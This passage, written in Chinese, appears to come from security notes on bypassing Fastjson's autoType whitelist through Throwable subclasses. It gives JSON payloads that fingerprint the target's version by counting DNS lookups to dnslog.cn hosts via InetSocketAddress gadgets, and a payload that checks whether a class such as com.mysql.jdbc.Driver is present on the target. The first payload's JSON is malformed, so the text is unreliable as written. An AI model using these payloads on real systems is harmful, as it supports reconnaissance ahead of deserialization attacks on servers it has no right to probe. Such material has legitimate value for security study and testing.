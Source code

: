 1. `Throwable` （处理异常类）类绕过
    
    原理：
    
    - **白名单放行**：Fastjson内部有一个白名单，`java.lang.Throwable` 的所有子类默认都在白名单中，因此 `checkAutoType` 会直接放行。
    - **特殊的 "message" 字段**：当Fastjson反序列化一个异常类时，如果JSON中存在一个`"message"`字段，Fastjson会特殊处理它。如果`"message"`字段的值是一个JSON对象`{}`，Fastjson会尝试将这个JSON对象反序列化并赋值给异常对象的`message`属性。
    - **漏洞触发点**：在上述过程中，Fastjson会调用 `toString()` 方法。如果将一个可以触发DNS查询的Gadget（例如 `java.net.InetSocketAddress`）放在这个`message`字段中，那么在 `toString()` 的调用链中，这个Gadget就会被触发，从而向外发送DNS请求。
    
    payload：
    
    DNS探测
    
    ```java
    [
      {
        "@type": "java.lang.Exception",
        "@type": "com.alibaba.fastjson.JSONException",
        "x": {
          "@type": "java.net.InetSocketAddress"
      {
        "address":,
        "val": "first.dnslog.cn"
      }
    }
    },
      {
        "@type": "java.lang.Exception",
        "@type": "com.alibaba.fastjson.JSONException",
        "message": {
          "@type": "java.net.InetSocketAddress"
      {
        "address":,
        "val": "second.dnslog.cn"
      }
    }
    }
    ]
    ```
    
    - **行为分析**：
        - 在`1.2.80`版本，Fastjson在处理异常类时，会对**所有字段**（包括`"x"`和`"message"`）的值进行`toString()`操作，因此会触发**两次DNS查询**。
        - 在`1.2.83`修复版中，只有`"message"`字段**会被特殊处理，因此只会触发**一次DNS查询*(`second.dnslog.cn`)。
        通过DNSLog收到的请求数量，就可以精确判断目标版本。
    
    探测目标类存在情况
    
    ```java
    {
      "x": {
        "@type": "java.lang.Character",
        "val":{
            "@type": "java.lang.Class",
            "val": "com.mysql.jdbc.Driver"
        }
      }
    }
    ```
    